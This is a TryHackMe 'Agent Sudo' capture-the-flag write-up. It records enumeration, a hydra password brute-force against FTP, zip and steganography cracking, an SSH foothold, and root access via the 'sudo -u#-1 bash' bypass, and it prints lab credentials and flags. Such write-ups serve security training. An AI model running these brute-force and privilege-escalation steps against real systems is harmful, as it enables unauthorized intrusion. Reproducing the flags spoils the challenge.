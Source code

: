 #Easy  #TryHackMe #linux 
# Enum
## nmap
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 400 Bad Request
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


┌──(root㉿kali)-[~]
└─# gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thm/ -t 50 --append-domain
	Found: gc._msdcs.thm Status: 400 [Size: 422]
	
## nmap
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 400 Bad Request
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# Exploit
![[Pasted image 20230429071357.png]]
┌──(root㉿kali)-[~]
└─# hydra -t 1 -l chris -P /usr/share/wordlists/rockyou.txt -vV 10.10.0.20 ftp
	[21][ftp] host: 10.10.0.20   login: chris   password: crystal

# Find
ftp creds = [chris] : [crystal]

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Agent_sudo]
└─# cat To_agentJ.txt 
	Dear agent J,
	All these alien like photos are fake! Agent R stored the real picture inside your directory. [Your login password is somehow stored in the fake picture]. It shouldn't be a problem for you.
	From,
	Agent C

┌──(root㉿kali)-[/home/kali/Desktop]
└─# binwalk --run-as=root -e cutie.png
	DECIMAL       HEXADECIMAL     DESCRIPTION
	0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
	869         0x365         Zlib compressed data, best compression
	WARNING: Extractor.execute failed to run external extractor 'jar xvf '%e'': [Errno 2] No such file or directory: 'jar', 'jar xvf '%e'' might not be installed correctly
	34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
	34820         0x8804          End of Zip archive, footer length: 22

┌──(root㉿kali)-[/media/…/challenge/THM/Agent_sudo/_cutie.png.extracted]
└─# binwalk 8702.zip
	DECIMAL       HEXADECIMAL     DESCRIPTION
	`-----------------------------------------------`
	0             0x0             Zip archive data, [encrypted compressed] size: 98, uncompressed size: 86, name: To_agentR.txt
	258           0x102           End of Zip archive, footer length: 22
	
┌──(root㉿kali)-[/media/…/challenge/THM/Agent_sudo/_cutie.png.extracted]
└─# zip2john 8702.zip > 8702.zip.hash

┌──(root㉿kali)-[/media/…/challenge/THM/Agent_sudo/_cutie.png.extracted]
└─# john 8702.zip.hash -wordlist=/usr/share/wordlists/rockyou.txt
	alien            (8702.zip/To_agentR.txt)

┌──(root㉿kali)-[/media/…/challenge/THM/Agent_sudo/_cutie.png.extracted]
└─# 7z x 8702.zip -p'alien'

┌──(root㉿kali)-[/media/…/challenge/THM/Agent_sudo/_cutie.png.extracted]
└─# cat To_agentR.txt 
	Agent C,
	We need to send the picture to '[QXJlYTUx]' as soon as possible!
	By,
	Agent R

┌──(root㉿kali)-[/usr/share/seclists/Usernames]
└─# echo [QXJlYTUx] | base64 -d
	[Area51] 

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Agent_sudo]
└─# steghide extract -sf cute-alien.jpg
	Enter passphrase: 
	wrote extracted data to "[message.txt]".

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Agent_sudo]
└─# cat message.txt  
	Hi [james],
	Glad you find this message. Your login password is [hackerrules!]
	Don't ask me why the password look cheesy, ask agent R who set this password for you.
	Your buddy,
	chris

### creds = [james] : [hackerrules!]

# FootHold
[james@agent-sudo:~$] ls
	Alien_autospy.jpg  user_flag.txt

[james@agent-sudo:~$] cat user_flag.txt 
	b03d975e8c92a7c04146cfa7a5a313c7

### get Alien_autospy.jpg
┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Agent_sudo]
└─# scp james@thm:/home/james/Alien_autospy.jpg /media/sf_kali_partage/challenge/THM/Agent_sudo
	james@thm's password: 
	Alien_autospy.jpg                                                    100%   41KB  30.0KB/s   00:01

### Alien_autospy.jpg content hidden info
┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Agent_sudo]
└─# steghide extract -sf Alien_autospy.jpg                                                     
	Enter passphrase: 

[james@agent-sudo:~$] sudo -l
	[sudo] password for james: 
	User james may run the following commands on agent-sudo:
	    [(ALL, !root) /bin/bash]

# PrivEsc
[james@agent-sudo:~$] sudo -u#-1 bash
	[sudo] password for james: 
[root@agent-sudo:~#] cat /root/root.txt 
	To Mr.hacker,
	Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 
	Your flag is 
	b53a02f55b57d4439e3341834d70c062
	By,
	DesKel a.k.a Agent R